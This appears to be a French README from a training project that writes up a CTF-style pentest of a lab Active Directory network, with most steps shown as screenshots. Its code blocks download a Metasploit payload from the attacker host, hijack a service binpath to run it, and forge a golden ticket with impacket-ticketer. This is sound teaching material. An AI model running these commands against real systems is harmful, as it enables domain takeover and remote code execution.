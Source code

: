 # Réalisation d'un pentest dans un environnement d'entreprise simplifié

Un client vous a missionné pour réaliser un pentest de son environnement interne. Vous devez élaborer un scénario de compromission de l'environnement tout entier, remonter chacune des vulnérabilités rencontrées et écrire une synthèse managériale qui permettra a une personne non technique de comprendre les risques présents sur le périmètre.

## Auteur

Roblot Jean-Philippe - <jroblot.simplon@proton.me>
Drula Kevin - <kdrula.simplon@proton.me>

## Version

04/03/2024 - V1R0

## Releases

![Static Badge](https://img.shields.io/badge/Kali%20Linux-2023.4-violet)
![Static Badge](https://img.shields.io/badge/Windows%20Server-2016-blue)
![Static Badge](https://img.shields.io/badge/Windows%2010-22H2-blue)

Powered by <https://shields.io>

## Contexte

En tant que analyste SOC, réalisation d'un CTF comprenant les attaques Active Directory les plus courantes.  
Le réseau comprend:
- Deux windows 10
- Deux windows serveur 2016 (Controleur de domaine + serveur)

Les quatres machines peuvent être entièrement compromises.
Afin de suivre en temps réel la progression des équipes, un environnnement type CTFd a été mis en place. Il y a 9 challenges a réaliser.
A chaque challenge réussi, il faudra prendre des notes technique sur la manière dont vous avez exploité les vulnérabilités.

## Activités

Reconnaissance de l'nvironnement avec Nmap

![alt text](image-28.png)
![alt text](image-29.png)
![alt text](image-30.png)
![alt text](image-32.png)
On identifie le contrôleur de domaine avec Kerberos sur le port 88
![alt text](image-31.png)

Utiliser le compte anonyme par défaut de l'AD pour rechercher des dossiers partagés
![alt text](image-53.png)

Utiliser SMBClient avec l'utilisateur anonyme pour voir le contenu du dossier "John"
![alt text](image-54.png)

Compte.txt  
![alt text](image-33.png)

Todo.txt   
![alt text](image-34.png)

Récupérer la liste d'utilisateurs de l'AD
![alt text](image-35.png)

Tester les mdp faible : user=mdp
![alt text](image-36.png)

Utiliser WinRM avec le compte "John"
![alt text](image-38.png)  
Scan des vuln avec WinPEAS
Récupérer la SAM

Identifier les comptes possédant un SPN
![alt text](image-37.png)

Utiliser ce compte pour générer un ticket et augmenter nos privilèges
![alt text](image-40.png)

Récupérer le mot de passe grâce au ticket avec John the Ripper
![alt text](image-39.png)

Chercher dans l'AD un utilisateur avec pre-auth désactivé et récupérer son mot de passe
![alt text](image-41.png)
![alt text](image-42.png)
![alt text](image-43.png)


Créer un payload avec Metasploit > msvenom
![alt text](pour_jp_et_sans_contexe.jpg)

Set le payload avec msf6 et le mettre en écoute
![alt text](metasploit.jpg)

Configurer le binpath d'un service vulnérable pour lancer le payload côté client (téléchargé au préalable depuis la Kali)


```bash
# Passer la Kali en mode server
python3 -m hhtp.server 80

#evil-WinRM 192.168.0.201
wget http://192.168.0.97/cheh.exe
sc.exe config John_work39 binpath= "C:\Users\John\Documents\cheh.exe"
./cheh.exe
start-service John_work39
```

![alt text](image-44.png)
![alt text](image-45.png)

NTDS.DIT pour récupérer le hash de KRBTGT

![alt text](image-46.png)
![alt text](image-47.png)

![alt text](image-48.png)

install krb5-user  
![alt text](image-49.png)

Générer le golden ticket avec Ticketer

```bash
impacket-ticketer -domain secure.intra -domain-sid S-1-5-21-2931287595-4144871426-66956829 -aesKey 0b994712e4f81aa3e8ce3a5faf2c88fc894ecbaa6109a30207dc619ea532ff3a -dc-ip 192.168.0.200 -debug Administrateur
```

export ticket  
![alt text](image-50.png)

Ajouter le hostname dans /etc/hosts pour résoudre le domaine
![alt text](image-52.png)

Utiliser le Golden Ticket pour se connecter au contrôleur de domaine
![alt text](image-51.png)

![alt text](image-55.png)

### Sources

https://book.hacktricks.xyz/welcome/readme  
https://johndcyber.com/how-to-create-a-reverse-tcp-shell-windows-executable-using-metasploit-56d049007047